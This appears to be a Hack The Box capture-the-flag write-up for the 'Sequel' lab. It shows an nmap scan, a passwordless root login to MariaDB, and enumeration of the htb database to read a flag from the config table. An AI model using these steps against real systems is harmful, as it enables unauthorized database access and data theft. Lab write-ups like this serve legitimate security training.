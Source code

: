 # [Sequel](https://app.hackthebox.com/starting-point)

## Target IP - 10.129.233.4

### Enumeration

Here we are scanning the target machine for open ports and services also we added to scan for the default scripts and also I tried to save some time by giving a port range. In result we get that mysql server was running using the MariaDB.


**Command 1** -

`nmap -sC -sV 10.129.233.4 -p 3000-3500`

**Output** -
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-23 21:28 IST
Nmap scan report for 10.129.233.4
Host is up (0.55s latency).
Not shown: 500 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 97
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, FoundRows, SupportsCompression, DontAllowDatabaseTableColumn, ConnectWithDatabase, LongColumnFlag, Support41Auth, SupportsLoadDataLocal, Speaks41ProtocolOld, SupportsTransactions, InteractiveClient, IgnoreSigpipes, Speaks41ProtocolNew, ODBCClient, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: x.y;X+iQ8eu<gu8V&ZsV
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 313.24 seconds
```

### Foothold

Now we can use the mysql server using the mysql client with the root user with the password.

**Command 2** -

`mysql -h 10.129.233.4 -u root`

**Output** -

```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 105
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

```

Now we looked for the databases in the server and found that there are 4 databases but we want to access the `htb` database.

**Command 3** -

`show databases;`

**Output** -

```
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.237 sec)
```

Now we used the `htb` database using the `use` command.

**Command 4** -

`use htb;`

**Output** -

```
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
```

Now we looked for the table and found there are 2 tables.

**Command 5** -

`show tables;`

**Output** -

```
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.220 sec)
```

Now we printed all the content of the config table and found the flag.

**Command 6** -

`select * from config;`

**Output** -

```
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | "Confidential"                   |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.222 sec)
```

### This machine has been pawned

~goobar07
